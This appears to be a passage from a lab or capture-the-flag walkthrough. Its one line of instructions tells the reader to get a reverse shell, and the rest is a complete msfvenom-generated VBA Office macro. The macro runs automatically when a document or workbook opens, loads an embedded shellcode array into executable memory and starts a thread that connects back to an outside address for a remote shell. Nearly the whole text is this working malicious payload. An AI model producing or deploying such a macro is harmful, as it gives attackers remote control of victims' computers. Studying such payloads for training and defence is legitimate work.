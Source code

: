 Now replicate and apply what we discussed to get a reverse shell!
*No answer needed*

```msfvenom
#If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Pnxbios As Long, ByVal Jgwqn As Long, ByVal Ghjuwpvp As LongPtr, Pjvtpjeot As Long, ByVal Jkqd As Long, Vvqxuu As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Djqn As Long, ByVal Qabxqzq As Long, ByVal Dvzi As Long, ByVal Uylf As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Igtlyg As LongPtr, ByRef Vzxk As Any, ByVal Uwrz As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal Pnxbios As Long, ByVal Jgwqn As Long, ByVal Ghjuwpvp As Long, Pjvtpjeot As Long, ByVal Jkqd As Long, Vvqxuu As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Djqn As Long, ByVal Qabxqzq As Long, ByVal Dvzi As Long, ByVal Uylf As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Igtlyg As Long, ByRef Vzxk As Any, ByVal Uwrz As Long) As Long
#EndIf

Sub Auto_Open()
        Dim Osxkuqc As Long, Jstvnd As Variant, Fwdky As Long
#If Vba7 Then
        Dim  Vhnl As LongPtr, Wydbwiu As LongPtr
#Else
        Dim  Vhnl As Long, Wydbwiu As Long
#EndIf
        Jstvnd = Array(252,232,143,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20,15,183,74,38,139,114,40,49,255,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,139,82,16,87,139,66,60,1,208,139,64,120,133,192,116,76,1,208,139,72,24,80,139,88,32,1,211,133,201,116,60,73,139, _
52,139,49,255,1,214,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,10,11,81,220,104,2,0,1,187,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,240,181,162,86,106,0,83,255,213)

        Vhnl = VirtualAlloc(0, UBound(Jstvnd), &H1000, &H40)
        For Fwdky = LBound(Jstvnd) To UBound(Jstvnd)
                Osxkuqc = Jstvnd(Fwdky)
                Wydbwiu = RtlMoveMemory(Vhnl + Fwdky, Osxkuqc, 1)
        Next Fwdky
        Wydbwiu = CreateThread(0, 0, Vhnl, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open() 
        Auto_Open
End Sub



```
